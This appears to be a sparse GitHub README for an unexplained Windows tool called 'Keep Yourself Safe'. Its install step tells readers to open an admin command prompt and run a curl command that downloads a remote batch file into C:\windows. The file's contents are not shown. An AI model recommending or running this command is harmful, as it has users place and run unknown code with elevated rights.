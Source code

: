 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

## How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
### Notice that file will be stored in Windows packpage


## Boot
<p> After installing, you can boot it with command KYS in cmd <p/>
